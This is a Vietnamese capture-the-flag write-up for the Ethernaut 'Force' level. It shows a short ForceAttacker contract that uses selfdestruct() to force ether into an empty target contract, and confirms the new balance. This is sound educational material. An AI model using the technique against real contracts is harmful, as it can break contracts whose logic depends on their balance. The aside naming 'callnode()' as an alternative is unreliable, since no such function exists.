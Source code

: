 # Level 7: Force
## ★★★☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
## Phân tích

Chúng ta được cho một contract rỗng và được yêu cầu phải chuyển ether vào contract này.
Cách duy nhất để chuyển ether vào contract rỗng này là dùng phương thức ``selfdestruct()``  
>Note: Trong đề xuất EIP-6049: ``selfdestruct()`` được khuyến nghị không nên sử dụng từ version 0.8.18 và sẽ hiển thị warning khi dùng trong solidity vì các vấn đề bảo mật  

Bạn có thể đọc thêm về ``selfdestruct()`` tại [đây](https://solidity-by-example.org/hacks/self-destruct/)  


## selfdestruct()
Hiểu đơn giản về ``selfdestruct()`` là ta sẽ delete một contract và gửi toàn bộ ether có trong contract đó về một address nào đó ``selfdestruct(someone_addr)``.
>Tuy nói là delete nhưng block đó vẫn được giữ lại trong ethereum node, không giống như khi ta delete data.  

> Note: Ngoài ``selfdestruct()``, ta vẫn có thể thực hiện operation tương tự với ``delegateCall()`` hay ``callnode()``

## Solution
**Target**: bằng cách nào đó chuyển vào contract này một ít ether.  
- Ta sẽ viết 1 contract đơn giản và deploy nó trên remix và cho value là 100 wei, thế là sau khi deploy ta đã thành công send vào contract của challenge một ít ether rồi


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.3 <0.9.0;

contract ForceAttacker {
    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

Check lại balance của contract
```javascript
await contract.balance()
0.0000000000000001
```

**Submit** -> Done



